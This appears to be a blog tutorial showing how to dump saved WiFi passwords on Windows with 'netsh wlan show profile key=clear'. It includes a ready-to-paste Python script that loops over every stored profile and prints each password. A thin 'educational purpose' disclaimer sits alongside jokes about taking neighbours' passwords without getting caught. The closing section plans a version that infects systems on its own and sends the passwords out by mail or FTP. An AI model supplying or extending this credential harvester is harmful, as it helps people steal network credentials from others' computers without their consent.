

Before starting anything I just wanna say (obligatory), **This is all for educational purpose and shouldn't be used for harming anyone**

Also that this can easily be done in any language that allows you to execute commands on the terminal. So let's see how this can be done on the terminal then we will see how we can automate this via python.

## Open a Terminal 

Press `Win + R` and type `cmd` in the input box next to `run: ` and press enter 


## Show all the saved profiles in your system 

Type `netsh wlan show profiles` and press enter. This should show all the Wifi Profiles saved on your system


## Details about a specific WiFi Profile

Enter `netsh wlan show profile <profile>` and replacing `<profile>` with the name of the profile you want to get details about 


You can see `Security key: Present` in the `Security Settings` Section but it isn't showing the password. For that, we will have to pass in a parameter of `key=clear`. 

## So let's try this again

`netsh wlan show profile <profile> key=clear`

And voila 🥳🎊 We have the password in the `Key Content` Field just below `Security key: Present`


The problem you can see here is that you will have to run this statement for each WiFi Profile and it might take some time to do this manually. Might just be the difference between you walking away with all passwords or getting caught in the act xD 

# Now let's automate this

I chose python because I am comfortable with it and have experience with executing instructions on the shell line via python but you can do the same with any language which allows you to execute commands on cmd and the output back. 

## How to execute a command on the shell from python

We could have used the `system()` method of the `os` module but the problem with that is that it runs the commands and prints the output directly on the stdout pipeline and there is no straight way to capture the output in a variable(as far as I know). So I'll be using the `check_output()` method of the `subprocess` module which takes in a list representing the command and returns the output after running the command as bytes. 

## Running commands and formating output

Let's see how we can use this to run `netsh wlan show profiles` 
```
import subprocess
output = subprocess.check_output(['netsh', 'wlan', 'show', 'profiles']) 
```   

And if we try printing `output`, it should look something like this: 

```
b'\r\nProfiles on interface Wi-Fi:\r\n\r\nGroup policy profiles (read only)\r\n---------------------------------\r\n    <None>\r\n\r\nUser profiles\r\n-------------\r\n    All User Profile     : JioFiber-5G\r\n    All User Profile     : JioFiber\r\n    All User Profile     : Blablabla 2\r\n   
 All User Profile     : Jaya\r\n    All User Profile     : 5G_Home\r\n    All User Profile     : 0E278461867E5885A4F8E790D14D056E 2\r\n    All User Profile     : Jio-2_4G\r\n    All User Profile     : Blablabla\r\n    All User Profile     : Jio5G\r\n    All User Profile     : 0E278461867E5885A4F8E790D14D056E\r\n    All User Profile     : Le pakad\r\n\r\n'
 ```
<br>

>  **NOTE:** You might get `\n` only instead of `\r\n` depending on which OS you are running this on. This is because DOS and Unix represent linebreak in different ways which are being carried to windows and Linux(why?). This can be a whole blog in itself 😂

Next, we should decode this string to `utf-8` and split it into different strings, and extract all the important information, a.k.a. Wifi profiles

```
data = output.decode('utf-8').split('\n')
profiles = []
for d in data:
    if "All User" in d:
        profiles.append(d.split(":")[1].replace('\r','').strip())
```

Now we should have all the profiles in a nice concise list

## Extracting Passwords for each profile

All we got to do now is loop over profiles and execute the same command for each profile, format the data and extract what's important for us. PASSWORDS (insert evil noise)

```
gold = [] 
for profile in profiles: 
    command = ["netsh", "wlan", "show", "profile", profile, "key=clear"]
    output = subprocess.check_output(command)
    data = output.decode('utf-8').split('\n')
    for d in data:
        if "Key Content" in d:
            password = d.split(":")[1].replace('\r','').strip()
            gold.append([profile,password])
```
And at last, drum rolls, please 🥁🥁

```
for g in gold:
    print("Username: " +g[0] + "\nPassword: " + g[1])
    print("------------------")
```
I am sorry but I can't show you my output 😜 but here is a representation of how it should look
```
Username: ABCD
Password: password
------------------
Username: Lock
Password: key
------------------
Username: Safe
Password: verysafe

```
# What you want to copy-paste 

```
import subprocess
output = subprocess.check_output(['netsh', 'wlan', 'show', 'profiles']) 

data = output.decode('utf-8').split('\n')
profiles = []
for d in data:
    if "All User" in d:
        profiles.append(d.split(":")[1].replace('\r','').strip())

gold = [] 
for profile in profiles: 
    command = ["netsh", "wlan", "show", "profile", profile, "key=clear"]
    output = subprocess.check_output(command)
    data = output.decode('utf-8').split('\n')
    for d in data:
        if "Key Content" in d:
            password = d.split(":")[1].replace('\r','').strip()
            gold.append([profile,password])

for g in gold:
    print("Username: " +g[0] + "\nPassword: " + g[1])
    print("------------------")
```

# Conclusion 
We learned about the `netsh` command on a shell which can be used to view all saved Wifi profiles and also how we can view information about a specific Wifi profile and we got to know how we can add pass an additional parameter to view the saved password, and at the end, we automated this whole process using python. Remember you can automate using any language with allows you to execute commands on a shell and read the output. 

# Next Step 
Ideas must be going left and right how you can execute this script on your neighbors and get their wifi and live the rest of your life for free, well ME TOO. So I am thinking of automating this to an extent that this script should infect the system on its own and extract the passwords and then send them to you via mail or an FTP server so that you don't even need to visit your neighbors.     Covid you know 🤷🏻‍♂😂

Follow me out on twitter [@jai_dewani](https://twitter.com/jai_dewani) if you wanna an update whenever I decide to post the next part 😉